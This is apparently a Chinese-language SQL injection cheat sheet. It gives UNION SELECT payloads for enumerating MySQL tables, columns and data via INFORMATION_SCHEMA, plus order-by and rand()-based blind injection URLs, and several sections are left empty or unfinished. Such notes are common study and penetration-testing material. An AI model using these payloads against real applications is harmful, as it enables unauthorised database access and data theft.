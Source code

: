 ### 查询表名
```
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() #
```
假设获取到数据库名为"databasename"后，对其进行十六进制编码得到0x64617461626173656e616d65。
```
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x64617461626173656e616d65 #
```
### 查询列名
由前一步获取到表名为tablename后，对其进行十六进制编码得到
```
UNION SELECT GROUP_CONCAT(column_name SEPARATOR+0x3c62723e) FROM+INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x7461626c656e616d65 #
```
### 获取数据
```
UNION SELECT GROUP_CONCAT(column_1,column_2 SEPARATOR+0x3c62723e) FROM databasename.tablename #
```
## insert/update/delete注入
参考：[SQL Injection in Insert Update and Delete Statements](https://www.exploit-db.com/docs/33253.pdf)
假设后台语句为：
```
insert into user(id,name,pass) values (1,"chybeta","123456");
```



## order by后注入
此部分整理自[瞌睡龙:MySql注入科普](http://static.hx99.net/static/drops/tips-123.html)
oder by由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。
### 检测方法
一般带有oder或者orderby的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：http://www.test.com/list.php?order=vote 根据vote字段排序。

找到投票数最大的票数num然后构造以下链接，看排序是否变化。：
```
list.php?order=abs(vote-(length(user())>0)*num)+asc
```

还有一种方法不需要知道任何字段信息，使用rand函数：
```
list.php?order=rand(true)
list.php?order=rand(false)
```
以上两个会返回不同的排序。

### payload
判断表名中第一个字符是否小于128的语句如下：
```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```
## 报错注入
## 盲注
### 盲注场景
在许多情况下，通过前面的测试会发现页面没有回显提取的数据，但是根据语句是否执行成功与否会有一些相应的变化。
+ 正确/错误的语句使得页面有适度的变化。可以尝试使用布尔注入